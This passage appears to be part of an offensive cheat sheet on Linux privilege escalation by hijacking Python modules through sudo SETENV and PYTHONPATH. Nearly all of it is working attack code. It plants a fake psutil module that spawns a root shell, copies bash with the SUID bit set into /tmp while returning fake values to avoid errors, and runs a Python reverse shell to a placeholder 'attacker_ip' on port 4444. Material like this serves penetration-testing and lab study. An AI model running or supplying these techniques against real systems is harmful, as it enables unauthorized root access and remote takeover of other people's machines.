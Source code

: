 ### Method 3: PYTHONPATH Environment Variable
```bash
# 1. Check sudo SETENV permissions
sudo -l | grep SETENV

# 2. Create malicious module in accessible directory
cat > /tmp/psutil.py << EOF
#!/usr/bin/env python3
import os

def virtual_memory():
    os.system('/bin/bash')
EOF

# 3. Execute with custom PYTHONPATH
sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py
```

## 🔧 Advanced Techniques

### Multi-Function Module Creation
```bash
# Create comprehensive replacement module
cat > /tmp/psutil.py << EOF
#!/usr/bin/env python3
import os

def virtual_memory():
    os.system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash')
    # Return fake object to avoid errors
    class FakeMemory:
        def __init__(self):
            self.total = 100
            self.available = 80
    return FakeMemory()

# Add other common functions to avoid errors
def cpu_percent(): return 50
def disk_usage(path): return None
EOF
```

### Reverse Shell Integration
```bash
cat > /tmp/hijacked_module.py << EOF
#!/usr/bin/env python3
import os
import socket
import subprocess

def target_function():
    # Reverse shell
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("attacker_ip", 4444))
    os.dup2(s.fileno(), 0)
    os.dup2(s.fileno(), 1)
    os.dup2(s.fileno(), 2)
    subprocess.call(["/bin/bash", "-i"])
EOF
```
